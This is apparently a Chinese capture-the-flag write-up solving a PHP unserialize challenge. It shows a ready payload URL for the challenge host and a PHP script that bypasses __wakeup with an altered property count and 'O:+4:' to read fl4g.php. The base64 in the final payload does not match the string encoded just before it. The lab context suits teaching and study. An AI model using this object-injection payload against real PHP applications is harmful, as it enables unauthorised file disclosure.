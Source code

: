 ```php
class Demo { 
    private $file = 'index.php';
    public $foo='bar';
    private $Foo='Bar';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
$var=new Demo('fl4g.php');
$var=serialize($var);
?>
```
 - 得到：`O:4:"Demo":3:{s:10:"Demofile";s:8:"fl4g.php";s:3:"foo";s:3:"bar";s:9:"DemoFoo";s:3:"Bar";}`
 - 可以看到，public和private是有区别的，private开头都会加那串东西
- 修改一下：`O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}`
- base64转码：TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==
- 最后payload：`http://220.249.52.133:54562/?var=%20TzorNDoiRGVtbyI6Mjp7czo4OiJmbDRnLnBocCI7fQ==`
- 因为散装方法会出问题，比如忽略空格什么的，所以建议直接在php里面做
```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
$var=new Demo('fl4g.php');
$var=serialize($var);
$var=str_replace('O:4:','O:+4:',$var);
$var=str_replace(':1:',':2:',$var);
var_dump(base64_encode($var));
?>
```
- 也记录一下几个php函数的用法：
 1. serialize和unserialize
 2. 创建对象的方法：`new classname(value)`
 3. str_replace('被替换字符串','需要替换的字符串','整个字符串')，返回被修改的字符串
 4. strchr('str1','str2')用于匹配str1中是否有str2
- 最后payload一下得到答案
